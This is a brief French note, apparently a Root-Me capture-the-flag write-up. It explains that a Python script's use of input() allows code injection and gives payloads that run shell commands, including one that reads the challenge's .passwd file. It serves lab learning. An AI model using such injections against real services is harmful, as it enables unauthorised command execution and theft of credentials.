 ```yaml
---
categorie: app-script
---
```


#informatique/cyber 
#rootme


![[Pasted image 20230807213728.png]]

![[Pasted image 20230807213743.png]]
La faille ici, câ€™est lâ€™utilisation de la fonction Â«Â inputÂ Â», pour voir la faille, il suffit de faire un appel du genre :
```bash
__import__('os').system('id')

```
pour rÃ©cupÃ©rer le mot de passe il suffit de faireÂ :
```bash
__import__('os').system('cat .passwd')
```

![[Pasted image 20230807214149.png]]